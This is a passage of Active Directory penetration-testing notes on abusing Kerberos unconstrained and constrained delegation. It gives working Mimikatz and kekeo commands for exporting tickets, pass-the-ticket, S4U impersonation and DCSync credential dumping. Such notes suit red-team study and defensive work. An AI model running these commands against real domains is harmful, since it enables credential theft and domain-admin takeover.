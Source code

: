 - This way the server can reuse the user's TGT to access any other resources as the user.
- **This could be used to escalate privileges in case we can compromise the computer with unconstrained delegation once a domain admin connects to that compromised machine**.
- **When unconstrained delegation is enabled on an user/computer where SPN attribute is set, the user sends TGT inside of TGS to a service so first hop server can use this TGT after extracting TGS to authenticate DC and the first hop server sends TGS to second hop server.**
- **If we have local administrative privileges on computers where Unconstrained Delegation is enabled, we can extract tickets from the server and use this ticket to connect unconstrained-delegation enabled servers**.
* `Get-ADComputer -Filter {TrustedForDelegation -eq $True}`: Finding domain computers which have unconstrained delegation enabled. 
* `Get-ADUser -Filter {TrustedForDelegation -eq $True}`: Finding domain users which have unconstrained delegation enabled.
* `"sekurlsa::tickets /export"`: Export tickets from first-hop server.
* If we don't have any high-privileged user ticket, we should wait for a domain admin to connect a service on the compromised machine.
* `"kerberos::ptt <domain-admin-ticket.kirbi>"`: Escalating privileges to domain admin with pass the ticket.
* We can use this DA ticket to connect any service on any computer, because unconstrained delegation is enabled on the compromised server being a computer object, we can use DA ticket to connect domain controller.
### Domain Privilege Escalation - Constrained Delegation
* When enabled constrained delegation on a service account, it allows access only to specified services on specified computers as a user.
- A typical scenario where constrained delegation is used - A user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorization.
- In this scenario, user's credentials are passed S4U extension to convert credentials to ticket.
- **To impersonate the user, Service for User(S4U) extension is used when non-Kerberos compatible authentication mechanism is used to authenticate to DC from web-server** which provides two extensions: (Kerberos Extension)
    - **Service for User to Self** (S4U2self) allows a service to obtain a forwardable TGS to itself on a behalf of a user with just the user principal name without supplying a password. The service account must have the TRUSTED_TO_AUTHENTİCATE_FOR_DELEGATION. T2A4D UserAccountControl attribute.
    - **Service for User to Proxy** (S4Uproxy) allows a service to obtain a TGS to a second service on behalf of a user. The second service is controlled by "msDS-AllowedToDelegate" attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.
- `Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo`: Enumerate objects where constrained delegation is enabled.

- Either plaintext or NTLM hash of the delegation object's is required. 
- `kekeo# tgt::ask /user:<username> /rc4:<user-NTLM-hash> /domain:<domain>`:  To request a TGT ticket
- `kekeo# tgs::s4u /tgt:<tgt.kirbi> /user:<Impersonated-User>@<domain> /service:<delegated-service>/<domain>|ldap/<dc-FQDN>`: Getting TGS ticket to access ldap service.
- `"kerberos::ptt ticket.kirbi"`: Uploading ticket from disk to LSASS process to authenticate the service. 
- `"lsadump::dcsync"`: Because we have LDAP service access TGS ticket, we can execute a DCSync attack.
- Kerberos just checks specified service name, but it does not check other protocols of specified service.
